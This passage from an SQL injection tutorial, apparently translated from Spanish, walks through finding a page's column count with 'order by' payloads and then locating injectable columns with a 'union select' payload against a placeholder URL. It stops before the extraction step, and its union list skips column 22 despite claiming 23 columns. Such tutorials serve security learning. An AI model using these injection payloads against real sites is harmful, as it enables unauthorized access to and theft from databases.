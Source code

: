 Here what we are looking for is that the page generates an error when injecting a number that exceeds the columns used by the page, to make it a little more understandable, we are going to see it this way:

We imagine that the page has `23` columns, going back to the previous example where we already discovered the vulnerable parameter, we would have something like this:

```

-http://www.paginaparaejemplo.com/algo.php?id=1&id2=1&id3=1' order by 1 --+ #sin error

-http://www.paginaparaejemplo.com/algo.php?id=1&id2=1&id3=1' order by 2 --+ #sin error

-http://www.paginaparaejemplo.com/algo.php?id=1&id2=1&id3=1' order by 3 --+ #sin error

-http://www.paginaparaejemplo.com/algo.php?id=1&id2=1&id3=1' order by 10 --+ #sin error

-http://www.paginaparaejemplo.com/algo.php?id=1&id2=1&id3=1' order by 20 --+ #sin error

-http://www.paginaparaejemplo.com/algo.php?id=1&id2=1&id3=1' order by 23 --+ #sin error

-http://www.paginaparaejemplo.com/algo.php?id=1&id2=1&id3=1' order by 24 --+ #tenemos un error

```

When we exceed the number of columns used by the page, it will show us an error like the following:

`The query was not carried out: Unknown column '24' in 'order clause'`

Thanks to this, we found that the page uses 23 columns.

### Using union select

Now it is the turn of `union select`, what these commands do is" give way "so to speak to execute sentences directly in the database and that this is reflected on the page.

To use `union select`, we have to put the total columns that we discovered earlier. Returning to the example that we have raised, it would be as follows:

```
http://www.paginaparaejemplo.com/algo.php?id=1&id2=1&id3=1' union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,23 --+
```

What that will generate is that the page shows us the numbers of the columns that are vulnerable to inject into them, this part is very important since we have to be very curious to notice the changes, in some cases the changes are very drastic and are they notice too much, but in other cases the changes are too subtle.

For this example, let's imagine the page is vulnerable on columns `3`,` 5`, and `20`. The page will show us these numbers somewhere.

### Extraer información 

Now that we have the number of columns and we have identified the injectable columns, continue to extract and inject information, to do that we need to inject directly into the vulnerable column, going to the previous example and knowing that column `5` is vulnerable, we will have something like this:
